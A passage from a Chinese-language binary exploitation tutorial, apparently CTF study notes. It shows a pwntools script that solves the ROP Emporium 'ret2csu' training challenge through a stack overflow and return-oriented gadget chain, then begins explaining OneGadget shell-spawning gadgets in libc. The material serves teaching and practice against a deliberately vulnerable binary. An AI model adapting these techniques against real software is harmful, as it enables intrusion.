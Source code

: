 ```
io.sendline(pay)

io.interactive()
```

**案例：ropemporium ret2csu**

https://ropemporium.com/binary/ret2csu.zip

```
# http://paste.ubuntu.com/p/BPZyHJ555f/
from pwn import *
context.log_level = 'debug'
io = process("./ret2csu")
pause()
io.recvuntil(">")
init_add = 0x0600E10
gadget_1 = 0x0400896 #add rsp, 8 ; pop rbx ; pop rbp ; r12 r13 r14 r15 ret
gadget_2 = 0x0400880 #mov rdx, r15 ; mov rsi, r14 ; mov edi, r13d ; call qword ptr [r12+rbx*8]
pay = "A"*0x20
pay += p64(0) # rbp
pay += p64(gadget_1)

pay += p64(0) # padding
pay += p64(0) # rbx
pay += p64(1) # rbp
pay += p64(init_add) # r12
pay += p64(0) #r13
pay += p64(0) # r14
pay += p64(0xdeadcafebabebeef) # r15
pay += p64(gadget_2) #ret

pay += p64(0) # padding
pay += p64(0) #rbx
pay += p64(0) #rbp
pay += p64(0) #r12
pay += p64(0) #r13
pay += p64(0) #r14
pay += p64(0) #r15

pay += p64(0x4007B1) #ret2win

io.sendline(pay)

io.interactive()
```



## OneGadget

**一个gadget执行/bin/sh**
通常执行system("/bin/sh")需要在调用system之前传递参数；
比较神奇的是，libc中包含一些gadget，直接跳转过去即可启动shell；
通常通过寻找字符串"/bin/sh"的引用来寻找(对着/bin/sh的地址在IDA Pro中按X)
